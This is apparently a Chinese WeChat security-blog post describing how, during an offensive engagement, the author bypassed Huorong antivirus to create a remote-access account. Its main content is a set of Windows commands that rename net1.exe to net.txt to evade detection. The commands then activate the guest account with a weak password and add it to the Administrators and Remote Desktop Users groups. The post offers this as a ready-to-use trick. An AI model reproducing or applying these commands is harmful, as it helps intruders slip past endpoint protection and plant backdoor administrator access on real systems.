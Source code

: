#  绕过杀软添加用户

[ 零威胁 ](javascript:void\(0\);)

**零威胁** ![]()

微信号 gh_494d3ed85514

功能介绍 让网络安全威胁动态清零！

____

___发表于_

收录于合集

在一次攻防中遇到火绒无法正常添加用户情况，于是利用一个小套路成功远程连接。  

虚拟机测试：正常添加用户会报毒

![]()

虚拟机测试 使用如下命令成功添加用户，但实战中添加失败。于是尝试使用组合套路。

  *   * 

    
    
    copy net1.exe net.txtnet.txt user admin 123 /add 

  *   *   *   * 

    
    
    net   user  guest  /active:yes   net   user  guest   Aa123456.net   localgroup  administrators  guest   /addnet   localgroup "Remote  Desktop Users"  guest  /add

实战使用：

![]()

  *   *   *   *   *   * 

    
    
    copy net1.exe net.txtnet.txt user guest /active:yes   net.txt user guest 123net.txt localgroup administrators guest /addnet.txt localgroup "Remote Desktop Users" guest /add  
    

![]()

没用报毒，成功激活guest用户连接。  

![]()

后续成功远程连接后，也是在此机器的远程连接机器中获取了更多信息。

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

